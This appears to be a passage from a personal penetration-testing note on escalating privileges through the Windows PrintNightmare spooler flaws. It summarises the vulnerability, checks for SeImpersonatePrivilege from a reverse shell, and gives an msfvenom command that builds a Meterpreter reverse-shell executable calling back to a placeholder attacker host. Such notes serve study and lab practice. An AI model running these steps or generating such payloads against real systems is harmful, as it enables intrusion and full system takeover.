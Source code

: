 
## Quick summary — what this is

- “PrintNightmare” refers to a class of Print Spooler vulnerabilities (notably CVE-2021-1675 and CVE-2021-34527) that allow **privilege escalation** or **remote code execution** via the Windows Print Spooler service.
    
- One attack vector uses **named pipe impersonation**: a privileged service (spoolsv.exe) can be tricked into impersonating an attacker-controlled client, leading to code execution as SYSTEM.
    
- Impact: full domain compromise on Windows domain controllers or local SYSTEM takeover on workstations/servers where spooler is running and vulnerable.

## Privileges of the current user

On the [[Initial access#Reverse Shell]] get the user's privileges.

```
whoami /priv
```

![[1_O8u40tZ_W_inoAsND5hOLQ.webp]]

The Privilege `SeImpersonatePrivilege` is enabled.

## Creating a payload with msfvenom

#Attacking_Machine 
Run the following command.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKING MACHIINE IP> LPORT=4445 -f exe -o malicious.exe
```

